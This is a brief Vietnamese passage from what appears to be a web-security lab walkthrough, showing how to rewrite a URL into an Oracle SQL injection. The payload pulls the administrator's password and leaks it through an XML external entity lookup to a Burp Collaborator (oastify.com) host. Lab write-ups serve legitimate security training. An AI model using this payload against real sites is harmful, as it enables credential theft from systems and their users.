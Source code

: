 ![alt text](image-49.png)

Thay đổi URL:
`"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"`

Thành: `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.bfuzt0sa9rrb5wjcdvy0p10offl69wxl.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`

![alt text](image-50.png)